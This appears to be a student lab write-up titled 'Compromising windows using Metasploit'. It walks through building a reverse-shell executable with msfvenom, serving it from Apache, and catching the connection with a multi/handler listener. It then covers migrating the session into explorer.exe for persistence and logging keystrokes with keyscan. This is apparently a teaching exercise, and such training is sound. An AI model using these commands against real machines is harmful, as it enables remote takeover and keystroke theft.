 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-10-09 082740](https://github.com/user-attachments/assets/81af2218-803e-47da-9669-4e2aec5cdd2f)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Screenshot 2024-10-09 082751](https://github.com/user-attachments/assets/383824da-ba51-4cdf-8eb4-465f27d8c497)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Screenshot 2024-10-09 082806](https://github.com/user-attachments/assets/29e47a0d-a590-4835-8386-a24e243b9f9e)


Start apache server
sudo systemctl apache2 start
## OUTPUT:
![Screenshot 2024-10-09 082817](https://github.com/user-attachments/assets/d47682b3-0a5a-42e8-8c3d-2a24655d24a5)

Check the status of apache2
## OUTPUT:
![Screenshot 2024-10-09 082834](https://github.com/user-attachments/assets/545a3b41-410d-481e-ba6a-0215594f1a8e)

Invoke msfconsole:
## OUTPUT:
![Screenshot 2024-10-09 082849](https://github.com/user-attachments/assets/4c8b88db-e116-4022-9fdb-f4ae29353850)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-09 082914](https://github.com/user-attachments/assets/4622b76d-8df9-45f6-a299-81e4fa841f89)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot 2024-10-09 082927](https://github.com/user-attachments/assets/37229e74-48c4-438f-b719-8eaeb3442bb1)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2024-10-09 082936](https://github.com/user-attachments/assets/6c2f5125-3af1-4220-9d09-3de65ce1c6f1)

Bypass any warning boxes, double-click the file, and allow it to run.

![Screenshot 2024-10-09 082947](https://github.com/user-attachments/assets/30514d6a-414c-4acc-8545-6bda15593bad)

On kali give the command exploit

![Screenshot 2024-10-09 082956](https://github.com/user-attachments/assets/ad2511f0-706e-42c8-bc08-8527e5b31cd5)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2024-10-09 083005](https://github.com/user-attachments/assets/4e3006f1-0245-4480-9130-fa6ff1f5176c)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-10-09 083017](https://github.com/user-attachments/assets/15693580-f55a-4729-89ea-b4a8245ad8fd)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-09 083042](https://github.com/user-attachments/assets/d3955e35-d9f8-4319-8e23-910884f3bf40)

![Screenshot 2024-10-09 083053](https://github.com/user-attachments/assets/a091a620-6605-4976-b330-edd98659798f)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-10-09 083101](https://github.com/user-attachments/assets/e8496e1e-b936-41a6-b8d5-fcd5e86e8dd6)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
